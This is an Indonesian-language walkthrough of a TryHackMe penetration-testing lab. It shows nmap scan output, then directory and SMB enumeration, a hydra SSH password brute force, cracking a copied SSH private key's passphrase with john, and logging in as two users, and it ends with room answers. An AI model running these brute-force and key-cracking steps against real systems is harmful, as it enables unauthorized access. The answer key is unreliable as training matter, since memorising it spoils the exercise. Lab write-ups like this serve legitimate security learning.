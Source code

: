 # CTF Basic Pentesting
- TryHackMe Room: https://tryhackme.com/room/basicpentestingjt
- IP Machine: 10.10.71.212

## Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.71.212             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 19:52 EDT
Nmap scan report for 10.10.71.212
Host is up (0.20s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/28%OT=22%CT=1%CU=42337%PV=Y%DS=2%DC=T%G=Y%TM=64C454E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-07-28T19:53:01-04:00
| smb2-time: 
|   date: 2023-07-28T23:53:01
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   207.38 ms 10.8.0.1
2   207.68 ms 10.10.71.212

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.86 seconds
```

## Gobuster Report
- Baris perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%201.JPG)

- Buka halaman `http://<IP_Machine>/development` di browser, disana ditemukan file **dev.txt** dan **j.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%202.JPG)

- Isi file dev.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%203.JPG)

- Isi file j.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%204.JPG)

- Dari informasi diatas diketahui bahwa:
	* Ada 2 user dengan inisial J dan K
	* User dengan inisial J memiliki password yang lemah
	* Mesin menggunakan service SMB (Samba)
	* Mesin menggunakan web server Apache versi 2.5.12

## Enum4linux
- Baris perintah: `enum4linux -a <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%205.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%206.JPG)

- Dari hasil enumerasi diketahui bahwa, 2 user yang dimaksud adalah **jan** dan **kay**

## Brute force
- Dikarenakan jan memiliki password yang lemah dan machine memiliki service SSH maka kita memutuskan untuk melakukan brute force dengan hydra
- Brute force akun SSH jay dengan hydra. Baris perintah:  `hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP Machine> ssh`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%207.JPG)

- Password SSH jan adalah **armando**

## Gaining Access
- Akses SSH dengan user jan. Baris perintah: `ssh jan@<IP Machine>` lalu masukkan password yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%208.JPG)

- Setelah berhasil masuk kita berada di directory **/home/jan**. Navigasi ke directory **/home** dan disana ditemukan home directory **kay**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%209.JPG)

- Navigasi ke directory **/home/kay** dan disana ditemukan file **pass.bak** dan directory **.ssh**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2010.JPG)

- Kita tidak bisa membaca isi file **pass.bak** dengan user jan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2011.JPG)

- Navigasi ke directory **.ssh** dan disana ditemukan kunci public (**id_rsa.pub**) dan kunci privat (**id_rsa**) dari akun SSH kay

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2012.JPG)

- Kita bisa masuk ke akun kay kalau kita bisa menemukan passphrase dari kunci privat kay
- Buka file id_rsa dengan baris perintah: `cat id_rsa`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2013.JPG)

- Buat sebuah file di local dan copy semua isi file **id_rsa**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2014.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2015.JPG)

- Ekstrak hash id_rsa dengan tool ssh2john: `ssh2john file_id_rsa > nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2016.JPG)

- Lakukan cracking hash dengan tool john the ripper:  `john --wordlist=/usr/share/wordlists/rockyou.txt file_hash`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2017.JPG)

- Passphrase berhasil ditemukan, gunakan passphrase tersebut untuk login ke SSH kay dengan perintah: `ssh -i id_rsa kay@IP_Machine` lalu masukkan passphrase yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2018.JPG)

- Setelah berhasil masuk sebagai kay kita bisa membaca isi file **pass.bak**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2019.JPG)

## Pertanyaan dan Jawaban

**Pertanyaan:** What is the name of the hidden directory on the web server(enter name without /)?

**Jawaban:** jawaban bisa dilihat di Gobuster Report
```sh
development
```

**Pertanyaan:** What is the username?

**Jawaban:** Nama user yang di brute force
```sh
jan
```